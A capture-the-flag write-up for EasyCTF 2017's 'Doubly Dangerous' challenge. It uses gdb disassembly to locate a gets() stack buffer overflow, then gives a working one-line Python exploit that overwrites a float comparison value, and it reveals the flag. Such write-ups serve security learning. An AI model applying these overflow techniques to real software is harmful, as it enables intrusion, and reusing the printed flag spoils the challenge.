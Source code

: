 # Doubly Dangerous
picoctf 
-Disclaimer("This writeup is from VoidMercy's https://github.com/VoidMercy/EasyCTF-Writeups-2017/tree/master/binexploit/Doubly%20Dangerous")

"There seems to be an issue with this binary. Can you exploit it?"

< filelink : https://github.com/EasyCTF/easyctf-2017-problems/blob/master/doubly-dangerous/doubly_dangerous?raw=true >

the task gave me an .ELF file, first thing to do is to run it :

```
root@localhost:~/Downloads/New folder# ./doubly_dangerous
Give me a string: 
tekdung 
nope!
root@localhost:~/Downloads/New folder# 
```

this time i tried to give a  l a r g e  input :


```
root@localhost:~/Downloads/New folder# ./doubly_dangerous
Give me a string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
nope!
Segmentation fault
```

it was a buffer overflow, and the porgram referencing to a restricted memory, but we need more clue, so lets start dissas the program using gdb 

```
Dump of assembler code for function main:
   0x08048607 <+0>:	lea    ecx,[esp+0x4]
   0x0804860b <+4>:	and    esp,0xfffffff0
   0x0804860e <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048611 <+10>:	push   ebp
   0x08048612 <+11>:	mov    ebp,esp
   0x08048614 <+13>:	push   ecx
   0x08048615 <+14>:	sub    esp,0x54
   0x08048618 <+17>:	fldz   
   0x0804861a <+19>:	fstp   DWORD PTR [ebp-0xc]
   0x0804861d <+22>:	sub    esp,0xc
   0x08048620 <+25>:	push   0x8048735
   0x08048625 <+30>:	call   0x8048410 <puts@plt>
   0x0804862a <+35>:	add    esp,0x10
   0x0804862d <+38>:	sub    esp,0xc
   0x08048630 <+41>:	lea    eax,[ebp-0x4c]
   0x08048633 <+44>:	push   eax
   0x08048634 <+45>:	call   0x80483e0 <gets@plt>
=> 0x08048639 <+50>:	add    esp,0x10
   0x0804863c <+53>:	fld    DWORD PTR [ebp-0xc]
   0x0804863f <+56>:	fld    DWORD PTR ds:0x804876c
   0x08048645 <+62>:	fucomip st,st(1)
   0x08048647 <+64>:	jp     0x804866c <main+101>
   0x08048649 <+66>:	fld    DWORD PTR ds:0x804876c
```
i found something interesting, the program is using fucomip wich means a compare floating points instruction.
since the program is comparing, i assume that the comparisons must return true.

```
0x0804863c <+53>:	fld    DWORD PTR [ebp-0xc]
0x0804863f <+56>:	fld    DWORD PTR ds:0x804876c
0x08048645 <+62>:	fucomip st,st(1)
```

the program is referencing the variable ebp-0xc and then comparing with the value in address 0x804876c, we need to find a value until the value of ebp-0xc overflow :

```
python -c "print 'a'*60" > weq
---------------------------------------------------------------
(gdb) r < weq
---------------------------------------------------------------
Breakpoint 2, 0x08048686 in main ()
(gdb) x/10wx $ebp-0xc
0xffffd31c:	0x00000000	0xf7f8f3fc	0xffffd340	0x00000000
0xffffd32c:	0xf7dd7793	0xf7f8f000	0xf7f8f000	0x00000000
0xffffd33c:	0xf7dd7793	0x00000001
```
meh

```
python -c "print 'a'*65" > weq
---------------------------------------------------------------
Breakpoint 2, 0x08048686 in main ()
(gdb) x/10wx $ebp-0xc
0xffffd31c:	0x00000061	0xf7f8f3fc	0xffffd340	0x00000000
0xffffd32c:	0xf7dd7793	0xf7f8f000	0xf7f8f000	0x00000000
0xffffd33c:	0xf7dd7793	0x00000001
```
ayyy

```
it is found that 65 character overflow the ebp-0xc
```
now to access the ebp-0xc memory, we need 64 character.
and the find the value that need to be replaced.

```
(gdb) x/10wx 0x804876c
0x804876c:	0x41348000	0x3b031b01	0x00000030	0x00000005
0x804877c:	0xfffffc60	0x0000004c	0xfffffe0b	0x00000070
0x804878c:	0xfffffe97	0x00000090
```

the value we need is 0x41348000. Thus, we can create our exploit

```
root@localhost:~/Downloads/New folder# python -c "print 'a'*64 + '\x00\x80\x34\x41'" | ./doubly_dangerous
Give me a string: 
Success! Here is your flag:
Failed to open flag file! //-------> easyctf{bofs_and_floats_are_d0uble_tr0uble!}
```

# Flag

```
easyctf{bofs_and_floats_are_d0uble_tr0uble!}
```

